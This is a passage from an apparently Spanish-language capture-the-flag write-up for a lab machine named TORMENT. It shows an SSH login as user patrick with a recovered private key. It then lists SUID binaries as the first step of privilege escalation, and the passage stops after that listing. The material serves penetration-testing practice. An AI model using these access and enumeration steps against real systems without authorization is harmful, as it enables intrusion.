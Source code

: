 ## Explotación

---

Ya tenemos:
- Usuarios válidos
- archivo id_rsa para conectanos por ssh y su posible clave

Damos permiso 600 a la clave e ingresamos por SSH.

```bash
❯ chmod 600 id_rsa

❯ ssh -i id_rsa patrick@10.11.12.26
The authenticity of host '10.11.12.26 (10.11.12.26)' can't be established.
ED25519 key fingerprint is SHA256:saGAy7DktmEDsSDdp7nZm3zj+aIhdw5tMgGaNH+HGsQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.11.12.26' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jan  4 19:34:43 2019 from 192.168.254.139
patrick@TORMENT:~$
```


## Escalación de privilegios

---

Listamos los binarios SUID y los permisos del usuario sobre el sistema operativo.

```bash
patrick@TORMENT:~$ find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/umount
/bin/mount
/bin/su
/bin/ntfs-3g
/bin/ping
/sbin/mount.nfs
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/sbin/pppd
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device

```